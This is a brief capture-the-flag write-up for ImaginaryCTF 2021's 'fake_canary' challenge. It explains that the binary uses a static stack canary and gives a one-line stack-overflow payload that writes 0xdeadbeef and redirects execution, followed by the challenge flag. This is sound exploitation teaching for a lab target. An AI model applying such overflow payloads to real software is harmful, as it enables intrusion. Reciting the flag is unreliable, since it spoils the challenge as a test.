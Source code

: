 # Fake canary

## Task

Here at Stack Smasher Inc, we protect all our stacks with industry grade canaries!

[fake_canary](https://2021.imaginaryctf.org/r/fake_canary)
`nc chal.imaginaryctf.org 42002`

## Solution

We look at the binary in ghidra and see that it has a stack
canary which needs to be 0xdeadbeef.
The canary is static, so it does nothing, we can just
overwrite it with the expected value:

payload = cyclic(40)+p64(0xdeadbeef)+p64(0)+p64(0x400726)

and we get the flag
`ictf{m4ke_y0ur_canaries_r4ndom_f492b211}`
